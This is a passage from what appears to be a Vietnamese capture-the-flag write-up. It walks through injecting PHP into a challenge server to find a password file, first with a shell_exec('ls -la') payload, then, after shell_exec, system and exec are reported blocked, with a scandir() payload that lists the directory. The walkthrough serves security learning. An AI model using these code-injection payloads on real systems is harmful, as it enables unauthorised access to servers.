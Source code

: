![1](img/54/Screenshot%20from%202023-01-31%2022-07-38.png)

- Source không có thông tin gì liên quan đến password cả, giờ thì ta phải thử tìm trong folder chứ index.php vì có thể sẽ có file khác nhưng ta không Path Traversal được:

`<pre><?php shell\_exec('ls -la') ?></pre>;`

![1](img/54/Screenshot%20from%202023-01-31%2022-10-08.png)

- shell\_exec() bị block. Thử với system() và exec() cũng bị block

- Đến đây, ta sử dụng `scandir()` để list all file trong director:

```
<pre>
<?php
$path = './';
$files = scandir($path);
foreach($files as $file) {
  echo "&lt;a href='$file'>$file&lt;/a>";
}
?>
</pre>;
```
